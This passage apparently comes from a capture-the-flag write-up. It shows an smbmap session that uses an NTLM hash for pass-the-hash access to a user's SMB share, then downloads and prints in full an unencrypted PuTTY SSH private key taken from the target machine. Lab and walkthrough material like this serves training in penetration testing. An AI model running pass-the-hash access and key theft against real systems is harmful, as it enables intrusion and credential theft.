 Cool, we can access the `alice` share. Next I listed all the files in the share:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' -s alice -R -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	alice                                             	READ, WRITE
	.\
	dr--r--r--                0 Thu Feb  7 20:48:09 2019	.
	dr--r--r--                0 Tue Jul 31 23:16:50 2018	..
	-r--r--r--             1460 Mon Jul 16 21:38:51 2018	my_private_key.ppk
	IPC$                                              	NO ACCESS
```

That SSH private key looks interesting, let's download it and confirm this is really an SSH key:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' --download alice/my_private_key.ppk -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] Starting download: alice\my_private_key.ppk (1460 bytes)
[+] File output to: /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
root@ragingunicorn:~# file /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
/usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk: ASCII text, with CRLF line terminators
root@ragingunicorn:~# cat /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: rsa-key-20180716
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
Private-Lines: 14
AAABAH0knH2xprkuycHoh18sGrlvVGVG6C2vZ9PsiBdP/5wmhpYI3Svnn3ZL8CwF
VGaXdidhZunC9xmD1/QAgCgTz/Fh5yl+nGdeBWc10hLD2SeqFJoHU6SLYpOSViSE
cOZ5mYSy4IIRgPdJKwL6NPnrO+qORSSs9uKVqEdmKLm5lat9dRJVtFlG2tZ7tsma
hRM//9du5MKWWemJlW9PmRGY6shATM3Ow8LojNgnpoHNigB6b/kdDozx6RIf8b1q
Gs+gaU1W5FVehiV6dO2OjHUoUtBME01owBLvwjdV/1Sea/kcZa72TYIMoN1MUEFC
3hlBVcWbiy+O27JzmDzhYen0Jq0AAACBANTBwU1DttMKKphHAN23+tvIAh3rlNG6
m+xeStOxEusrbNL89aEU03FWXIocoQlPiQBr3s8OkgMk1QVYABlH30Y2ZsPL/hp6
l4UVEuHUqnTfEOowVTcVNlwpNM8YLhgn+JIeGpJZqus5JK/pBhK0JclenIpH5M2v
4L9aKFwiMZxfAAAAgQDG+o9xrh+rZuQg8BZ6ZcGGdszZITn797a4YU+NzxjP4jR+
qSVCTRky9uSP0i9H7B9KVnuu9AfzKDBgSH/zxFnJqBTTykM1imjt+y1wVa/3aLPh
hKxePlIrP3YaMKd38ss2ebeqWy+XJYwgWOsSw8wAQT7fIxmT8OYfJRjRGTS74QAA
AIEAiOHSABguzA8sMxaHMvWu16F0RKXLOy+S3ZbMrQZr+nDyzHYPaLDRtNE2iI5c
QLr38t6CRO6zEZ+08Zh5rbqLJ1n8i/q0Pv+nYoYlocxw3qodwUlUYcr1/sE+Wuvl
xTwgKNIb9U6L6OdSr5FGkFBCFldtZ/WSHtbHxBabb0zpdts=
Private-MAC: 208b4e256cd56d59f70e3594f4e2c3ca91a757c9
```
